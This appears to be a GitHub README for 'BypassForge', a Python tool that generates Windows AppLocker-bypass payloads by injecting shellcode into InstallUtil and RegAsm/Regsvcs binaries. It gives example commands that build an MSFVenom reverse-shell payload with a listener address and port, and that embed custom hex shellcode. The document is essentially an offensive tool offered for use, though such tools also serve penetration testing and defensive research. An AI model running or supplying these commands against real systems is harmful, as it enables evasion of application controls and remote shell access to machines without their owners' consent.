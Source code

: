 # BypassForge
Generate Payloads utilizing Process Injection techniques for Living-off-the-Land Applocker Bypass Executables like InstallUtil and RegAsm/Regsvcs in Windows. Currently only two LOL Binaries are supported (InstallUtil & RegAsm/Regsvcs) along with one Process Injection technique (PE Injection). Later on, other techniques and binaries will be added to the tool.

# Example Usage
The script can be used in two modes:
- **MSF Mode**
Parameters like listener IP, listener port and MSF payload type are specified, based on which MSFVenom payload is generated and added to the final binary.
```
python BypassForge.py -b InstallUtil,RegAsm -lh 127.0.0.1 -lp 8080 --payload windows/x64/shell_reverse_tcp
```
![image](https://github.com/user-attachments/assets/047de769-d90f-4350-b7c9-96ce3382d891)

- **Custom Shellcode Mode**
Custom shellcode which are created using 3rd party tools like micr0_shell (https://github.com/senzee1984/micr0_shell) or manually created is specified. This shellcode is added to the final payload binary.
```
python BypassForge.py -b InstallUtil,RegAsm --custom --hex-shellcode 4831d265488b42604<SNIP>c9515151514989c84989c9ffd0
```
![image](https://github.com/user-attachments/assets/c60a0235-f614-4823-9fc9-606c4f5e59be)
